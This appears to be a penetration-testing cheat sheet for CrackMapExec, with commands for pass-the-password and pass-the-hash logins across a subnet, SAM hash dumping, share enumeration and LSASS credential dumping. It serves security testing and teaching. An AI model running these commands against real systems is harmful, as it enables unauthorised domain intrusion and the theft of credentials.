 *Crackmapexec* stores results and loot in a database.
Connect to the CME database:
```bash
cmedb
```

---
# Pass-the-password attack

Sweep the whole domain and try to login to SMB services with known credentials:
```bash
crackmapexec smb 10.0.0.0/24 -d <AD-domain> -u <user> -p <password>
```

# Pass-the-hash attack

Same as pass-the-password attack, but using NTLM-hashes instead:
```bash
crackmapexec smb 10.0.0.0/24 -u <user> -H <NTLM-hash> --local-auth
```
Args:
`-H`: NTLM hash
`--local-auth`: authenticate locally


**Dump SAM database:**
```bash
crackmapexec smb 10.0.0.0/24 -u <user> -H <NTLM-hash> --local-auth --sam
```
Args:
`--sam`: dump SAM hashes from target systems


**Enumerate shares:**
```bash
crackmapexec smb 10.0.0.0/24 -u <user> -H <NTLM-hash> --local-auth --shares
```
Args:
`--shares`: enumerate shares and access


**Dump lsass credentials:**
Requires credentials of an administrative user.
```bash
crackmapexec smb 10.0.0.0/24 -u <user> -H <NTLM-hash> --local-auth -M lsassy
```
